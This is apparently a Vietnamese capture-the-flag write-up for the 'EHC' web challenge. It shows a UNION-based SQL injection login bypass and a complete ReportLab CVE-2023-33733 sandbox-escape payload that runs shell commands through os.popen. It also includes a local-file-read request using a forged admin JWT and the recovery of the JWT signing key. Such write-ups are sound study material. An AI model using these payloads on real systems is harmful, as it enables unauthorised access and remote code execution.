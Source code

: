 ```yaml
---
title: EHC - Web Challenge
description: CTF-Web
author: Pr0pylTh10ur4C1L
date: 2024-09-11 18:41:00 +0700
categories: [Capture The Flag]
tags: [Web Exploitation]
math: true
mermaid: true
---
```


> Tính ra ban đầu cứ tìm cách bypass cái filter do ham làm blackbox nên lâu vcl

## SQLi username

Ở đây thì khi login, ta thấy chương trình sẽ gọi tới hàm `getUser` trong database
```python
user, status = database.get_user(username, password)
```

Nhìn vào file `database.py`, ta thấy được cách hàm này hoạt động:

```python
def get_user(self, username, password):
    password_bytes = password.encode("utf-8")
    query = text(f"SELECT * FROM users WHERE username = '{username}'")
    print("Query:", query)
    user = self.session.execute(query).fetchone()
    if not user:
        return None, False
    if bcrypt.checkpw(password_bytes, user.password.encode("utf-8")):
        return user, True
    return None, False
```

Đoạn code trên bị lỗi SQL Injection ở chỗ `username` khi nó được truyền vào query mà không được escape. Để ý class user có dạng

```python
class Users(db):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True, autoincrement=True)
    username = Column(String)
    password = Column(String)
    is_admin = Column(Boolean, default=True)
```

Như vậy để có thể login với user có quyền admin ta tạo tài khoản với user bất kỳ. Ở đây là `trungpq`, sau đó ta sẽ login với `username` như sau:

```
' union select id, username, password, 1 from users where username%3d'trungpq
```

Như vậy câu query sẽ trở thành
```
SELECT * FROM users WHERE username = '' union select id, username, password, 1 from users where username='trungpq'
```

Nó sẽ trả về user `trungpq` nhưng mà có quyền admin

## CVE-2023-33733
Do có chức năng liên quan tới chuyển file txt thành pdf trong file `app.py` (/convert, /view_pdf), mình đã cố tìm cách để có thể khai thác bằng cách tìm điểm yếu trong code nhưng hardcore vcl.

Sau cùng thì như HTB Machine Easy, có thể là nó sẽ có CVE nào đó, nên mình đã search google "python pdf cve" và ra ngay một con hàng trên đầu
```
https://github.com/c53elyas/CVE-2023-33733
```

Đây là CVE của reportlab (được sử dụng trong `convert_pdf.py`) có thể inject code vào pdf. Tuy nhiên thì mình thử kiểu gì cũng éo được. Sau cùng thì tư duy `mineme2` lại khiến mình thử diff lib reportlab của bài này với bản gốc xem có gì hay ho (cụ thể là bản 3.6.12)

Ở file `rl_safe_eval.py` đã filter hết các từ sau:
```python
__rl_unsafe__ = frozenset('''all any breakpoint builtins co_argcount co_cellvars co_code co_consts co_filename co_firstlineno 
							co_flags co_freevars co_kwonlyargcount co_lnotab co_name co_names co_nlocals co_posonlyargcount 
							co_stacksize co_varnames cr_await cr_code cr_frame cr_origin cr_running ctype enumerate filter frozenset 
							func_code func_defaults func_doc func_globals func_name f_back f_builtins f_code f_exc_traceback f_exc_type 
							f_exc_value f_globals f_lasti f_lineno f_locals f_restricted f_trace gi_code gi_frame gi_running gi_yieldfrom 
							globals hasattr im_class im_func im_self iter list locals map max min next pow range reversed set sorted 
							sum system tb_frame tb_lasti tb_lineno tb_next vars __annotations__ __code__ __defaults__ __func__ __globals__ 
							__iter__ __kwdefaults__ __module__ __name__ __qualname__ __self__'''.split()
```
Challenge đã filter `pow` và `system` nên ta sẽ đổi thành `popen` và `type` để bypass filter

Final payload:
```
<para> <font color="[ [ getattr(type,Word('__globals__'))['os'].popen('cat /flag*.txt > /tmp/hehe.pdf').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">                exploit                </font>            </para>
```

## LFI 

```python
@app.route("/view_pdf", methods=["GET"])
def view_pdf():
    token = request.cookies.get("token")
    if not token:
        return redirect(url_for("login"))
    
    try:
        jwt_payload = jwt.decode(token, JWT_KEY, algorithms=[JWT_ALG])
    except jwt.ExpiredSignatureError:
        return redirect(url_for("login"))
    except jwt.InvalidTokenError:
        return redirect(url_for("login"))
    
    if not jwt_payload.get("login"):
        return redirect(url_for("login"))
    
    if jwt_payload.get('login') and is_admin(jwt_payload):
        pdf_filename = request.args.get('f')
        if not pdf_filename:
            return render_template("error.html", title="Error", error="No file provided", redirect_url="/convert"), 400
        return send_file(os.path.join(UPLOAD_FOLDER, pdf_filename), as_attachment=False)
```

Đoạn code này bị LFI nên có thể đọc file bất kỳ, vậy exccute đưa flag ra `/tmp/hehe.pdf` và đọc file flag là xong

```
GET /view_pdf?f=/tmp/hehe.pdf HTTP/2
Host: hells.ehc-fptu.club
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: embed
Referer: https://hells.ehc-fptu.club/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

HTTP/2 200 OK
Date: Wed, 11 Sep 2024 12:03:09 GMT
Content-Type: application/pdf
Content-Length: 59
Content-Disposition: inline; filename=hehe.pdf
Last-Modified: Wed, 11 Sep 2024 12:00:33 GMT
Cache-Control: no-cache
Etag: "1726056033.212105-59-540542130"
Vary: Cookie, Accept-Encoding
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Cf-Cache-Status: BYPASS
Accept-Ranges: bytes
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=06L56Ghj9h69RbqcnkwHAsBPtIRla6BNeK7q2EU0nb6g1LF4XlRDZDQiWoZRcZYeB5%2BSArn%2BIHBIJDdDwRcXbY6FYLYVRSc5SqcdirAK2zE0%2B3M%2FZMya6IB1JNHiMRIBgxYVk4hQ"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Strict-Transport-Security: max-age=2592000
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 8c1783528c409ca7-SIN
Alt-Svc: h3=":443"; ma=86400

EHC{3asy_brute_f0rce_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}
```

> Đã rm -rf /tmp/hehe.pdf :v

## Intended way
Để ý thì ở trong file `script.js` và `style.css`, ta sẽ thấy hai đoạn comment sau:
```
// Are you finding something in here? This is a part that you need to find: UGFzc3dvcmQ6IFlLbUVncTlzV1g=
/* Are you finding something about Hell's EHC in here? This is a part that you need to find: Tm90ZTogaHR0cHM6Ly9wYXN0ZWJpbi5jb20va3RrdVVGYU0= */
```

Decode Base64, đây là thứ chúng ta thu được
```
Password: YKmEgq9sWX
Note: https://pastebin.com/ktkuUFaM
```

Truy cập vào link pastebin và điền pass, ta thu được `key`, `iv` và `input` của hàm AES, thứ mà theo mô tả thì output sẽ là JWT key
```
Key: 969bbc9a91330066499ebe6e309cba1b
IV: 57114c46cb8aefd48fe18734ed3c9125
Input: gotohell
Output: <Admin key>
<Do you know AES? Hey, Remember this is default encrypt?>
```

Sử dụng AES_CBC, ta sẽ thu được key JWT là `640ac4e02546bdee1a7fc487b970d3ff`.

Đến đây thì không có gì khó, như đã phân tích ở phần SQLi thì ta chỉ cần is_admin = 1 là được. Chỉ cần sửa JWT thoi. Cụ thể thì JWT của mình là (sử dụng jwt.io)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
```

Cho vào cookie và ta sẽ có quyền admin.